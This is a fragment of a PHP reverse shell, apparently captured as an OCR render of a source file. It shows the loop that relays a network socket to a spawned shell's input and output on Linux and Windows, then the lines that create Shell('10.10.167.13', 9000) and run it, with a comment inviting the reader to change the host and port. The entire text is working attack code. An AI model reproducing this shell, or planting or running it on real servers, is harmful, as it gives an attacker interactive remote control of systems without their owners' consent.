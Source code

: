```
                    do {
                        $status = proc_get_status($process);
                        if (feof($socket)) { // check for end-of-file on SOCKET
                            echo "SOC_ERROR: Shell connection has been terminated\n"; break;
                        } else if (feof($pipes[1]) || !$status['running']) {                 // check for end-of-file on STDOUT or if process is still running
                            echo "PROC_ERROR: Shell process has been terminated\n";   break; // feof() does not work with blocking streams
                        }                                                                    // use proc_get_status() instead
                        $streams = array(
                            'read'   => array($socket, $pipes[1], $pipes[2]), // SOCKET | STDOUT | STDERR
                            'write'  => null,
                            'except' => null
                        );
                        $num_changed_streams = @stream_select($streams['read'], $streams['write'], $streams['except'], 0); // wait for stream changes | will not wait on Windows OS
                        if ($num_changed_streams === false) {
                            echo "STRM_ERROR: stream_select() failed\n"; break;
                        } else if ($num_changed_streams > 0) {
                            if ($this->os === 'LINUX') {
                                if (in_array($socket  , $streams['read'])) { $this->rw($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (in_array($pipes[2], $streams['read'])) { $this->rw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (in_array($pipes[1], $streams['read'])) { $this->rw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            } else if ($this->os === 'WINDOWS') {
                                // order is important
                                if (in_array($socket, $streams['read'])/*------*/) { $this->rw ($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (($fstat = fstat($pipes[2])) && $fstat['size']) { $this->brw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (($fstat = fstat($pipes[1])) && $fstat['size']) { $this->brw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            }
                        }
                    } while (!$this->error);
                    // ------ WORK END ------

                    foreach ($pipes as $pipe) {
                        fclose($pipe);
                    }
                    proc_close($process);
                }
                // ------ SHELL END ------

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.167.13', 9000);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
```